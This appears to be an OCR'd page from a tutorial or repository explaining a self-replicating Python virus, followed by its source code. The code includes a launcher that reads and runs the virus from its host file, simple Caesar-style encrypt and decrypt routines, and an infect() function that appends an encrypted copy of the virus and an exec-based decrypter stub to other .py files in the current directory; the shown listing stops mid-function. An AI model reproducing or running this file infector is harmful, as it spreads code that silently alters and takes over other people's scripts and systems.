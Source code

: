 - **Global code**: This code reads the germ code, stays with the rest with the functions explained above, and runs the 
  virus.
```python
import sys
host = open(sys.argv[0], "r")
host_text = host.read()
host.close()
virus = host_text[:2126]
run(virus)
```

After explaining all the functions, the complete germ code is as follows:
```python
def calculate_key(text):
    if len(text) >= 3:
        key = ord(text[0]) + ord(text[1]) + ord(text[2])
    else:
        key = 42
    return key


def decrypt(text, key):
    decrypted_text = ""
    for character in text:
        if character.isupper():
            decrypted_text += chr((ord(character) - key - 65) % 26 + 65)
        elif character.islower():
            decrypted_text += chr((ord(character) - key - 97) % 26 + 97)
        else:
            decrypted_text += character
    return decrypted_text


def encrypt(text, key):
    encrypted_text = ""
    for character in text:
        if character.isupper():
            encrypted_text += chr((ord(character) + key - 65) % 26 + 65)
        elif character.islower():
            encrypted_text += chr((ord(character) + key - 97) % 26 + 97)
        else:
            encrypted_text += character
    return encrypted_text


def infect(virus):
    import os
    for file in os.listdir("."):
        if file.endswith(".py"):
            script = open(file, "r+")
            text_script = script.read()
            if "def calculate_key" not in text_script:
                plain_part = virus[:517]
                part_to_encrypt = virus[517:]
                key = calculate_key(text_script)
                encrypted_part = encrypt(part_to_encrypt, key)
                script.write(plain_part)
                decrypter = "import sys" + chr(10) + "host = open(sys.argv[0], " + chr(34) + "r" + chr(34) + ")" + chr(10) + "host_text = host.read()" + chr(10) + "host.close()" + chr(10) + "plain_part = host_text[host_text.find(" + chr(34) + "def calculate_key" + chr(34) + "):host_text.find(" + chr(34) + "def calculate_key" + chr(34) + ")+517]" + chr(10) + "key = calculate_key(host_text)" + chr(10) + "decrypted_text = decrypt(" + chr(34) + chr(34) + chr(34) + encrypted_part + chr(34) + chr(34) + chr(34) + ", key)" + chr(10) + "exec(decrypted_text)" + chr(10) + "run(plain_part + decrypted_text)"
```